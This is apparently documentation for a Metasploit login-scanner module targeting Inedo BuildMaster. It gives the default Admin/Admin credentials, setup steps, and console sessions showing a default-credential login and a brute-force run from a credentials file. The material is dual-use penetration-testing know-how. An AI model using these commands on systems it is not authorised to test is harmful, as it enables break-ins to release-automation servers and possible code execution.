 This module allows you to authenticate to Inedo BuildMaster, an application release automation tool. The default credentials for BuildMaster are Admin/Admin. Gaining privileged access to a BuildMaster can lead to remote code execution.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/buildmaster_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: Set credentials
5. Do: ```run```
6. You should see the module attempting to log in.

## Scenarios

Attempt to login with the default credentials.
```
msf > use auxiliary/scanner/http/buildmaster_login 
msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.8
RHOSTS => 10.0.0.8
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.8:81 - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.8:81 - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) >
```
Brute force with credentials from file.
```msf > use auxiliary/scanner/http/buildmaster_login 
msf auxiliary(buildmaster_login) > options

Module options (auxiliary/scanner/http/buildmaster_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD          Admin            no        Password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             81               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME          Admin            no        Username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.8
RHOSTS => 10.0.0.8
msf auxiliary(buildmaster_login) > set USERPASS_FILE ~/BuildMasterCreds.txt
USERPASS_FILE => ~/BuildMasterCreds.txt
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.8:81 - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"test"
[-] FAILED LOGIN - 10.0.0.8:81 - "Admin":"test"
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"wrong"
[-] FAILED LOGIN - 10.0.0.8:81 - "Admin":"wrong"
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.8:81 - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) > 
```